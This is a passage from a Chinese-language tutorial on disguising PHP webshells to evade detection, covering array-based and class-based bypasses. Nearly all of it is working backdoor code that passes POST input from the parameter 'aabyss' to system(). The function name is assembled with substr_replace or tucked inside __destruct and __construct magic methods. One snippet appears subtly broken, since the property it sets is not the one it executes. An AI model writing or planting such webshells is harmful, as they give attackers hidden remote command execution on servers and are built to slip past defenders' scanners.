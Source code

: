 ### 6.2 二维数组

```php
$f = substr_replace("systxx","em",4);          //system（高危函数）
$z = array($arrayName = ($arrayName = ($arrayName = array('a' => $f($_POST['aabyss'])))));
var_dump($z);
```

## 7# 类绕过

通过自定义类或者使用已知的类，将恶意代码放入对应的类中进行执行

### 7.1 单类

```php
class Test
{
    public $_1='';
    function __destruct(){
        system("$this->a");
    }
}
$_2 = new Test;
$_2->$_1 = $_POST['aabyss'];
```

### 7.2 多类

```php
class Test1
{
    public $b ='';
    function post(){
        return $_POST['aabyss'];
    }
}
class Test2 extends Test1
{
    public $code = null;
    function __construct(){
        $code = parent::post();
        system($code);
    }
}
$fff = new Test2;
$zzz = new Test1;
```

主要还是要用一些魔术方法来进行ByPass

## 8# 嵌套运算绕过
